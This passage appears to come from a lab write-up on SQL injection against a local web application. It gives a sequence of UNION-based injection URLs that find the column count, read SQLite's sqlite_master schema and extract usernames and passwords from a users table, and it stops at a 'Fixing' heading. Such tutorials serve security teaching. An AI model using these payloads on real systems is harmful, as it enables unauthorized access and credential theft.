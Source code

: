 ![](https://i.imgur.com/DBsYtRR.png)
    
</center>

This error tells us that there 2 columns, so change the address

```
http://localhost:5000/home/Admin%' union select 1,2--
```

Now we got username and it email address, from the database

<center>

![](https://i.imgur.com/Aqjp088.png)
    
</center>

Assumption about database provider can give us a possible key to get another piece of information. In the end web application is using `sqlite` so we can use `sqlite_master` if we want to get another information.

```
http://localhost:5000/home/Admin%' union select 1,2 from sqlite_master--
```
We got information about admin user, just like the LInk that can be used on the web page

<center>

![](https://i.imgur.com/ehE72we.png)
    
</center>

`tbl_name` `limit` are keys of the `sqlite` database. They will give us info about table with the personal information

```
http://localhost:5000/home/Admin%' union select tbl_name,sql from sqlite_master limit 1,1--
```

<center>

![](https://i.imgur.com/0fmXXKK.png)
    
</center>

Specifying, what kind of tables we should display will give us some information about secrets in the database

```
http://localhost:5000/home/Admin%' union select UserName,Password from users limit 0,1--
```

<center>

![](https://i.imgur.com/hCzkaSw.png)
    
</center>

### Fixing
